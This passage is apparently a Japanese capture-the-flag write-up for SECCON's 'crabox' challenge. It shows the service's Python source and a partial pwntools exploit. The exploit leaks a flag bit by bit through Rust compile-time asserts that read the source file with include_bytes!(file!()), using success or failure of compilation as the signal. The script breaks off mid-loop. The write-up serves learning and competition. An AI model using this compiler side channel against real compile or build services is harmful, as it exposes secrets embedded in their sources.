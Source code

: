 ```python
while True:
    line = sys.stdin.readline()
    if line.startswith("__EOF__"):
        break
    program += line
if len(program) > 512:
    print("Your program is too long. Bye👋".strip())
    exit(1)

source = TEMPLATE.replace("{{FLAG}}", FLAG).replace("{{YOUR_PROGRAM}}", program)

with tempfile.NamedTemporaryFile(suffix=".rs") as file:
    file.write(source.encode())
    file.flush()

    try:
        proc = subprocess.run(
            ["rustc", file.name],
            cwd="/tmp",
            stdout=subprocess.DEVNULL,
            stderr=subprocess.DEVNULL,
            timeout=2,
        )
        print(":)" if proc.returncode == 0 else ":(")
    except subprocess.TimeoutExpired:
        print("timeout")
```

Rustのコードを渡すとコンパイルして成功なら`:)`、失敗なら`:(`を返してくれるサービスを攻略する問題です。入力したコードの後にFlagの入ったコメントが追記されるので、どうにかしてこれを盗みだします。

Rustは `const _:() = assert!(...);` でコンパイル時assertができ、`include_bytes!()`でコンパイル時ファイル読み取り、さらに`file!()`でコンパイル中ソースファイルのパスを取得できるので、これらを組み合わせてFlagを1ビットづつ読み出します。よく考えたらASCIIなのでMSBは0固定でよかったですね。

exploit:
```python
import os
from pwn import *

b4 = """fn main() {
    """

af = """

    /* Steal me: __FLAG__ */
}"""

offset = len(b4) + 512 + af.find("__FLAG__")

flag = "SECCON{"

while True:
    byte = 0
    for bit in range(7, -1, -1):
        p = ""
        p += f"const _: () = assert!(include_bytes!(file!())[{offset + len(flag)}] >= {byte | (1 << bit)});"
        p += " " * (511 - len(p))
        assert len(p) == 511

        #r = process(argv = ["python", "app.py"], env = {"FLAG": "SECCON{abcdefg}", "PATH": os.environ["PATH"]})
        r = remote("crabox.seccon.games", 1337)
        #print(p)
```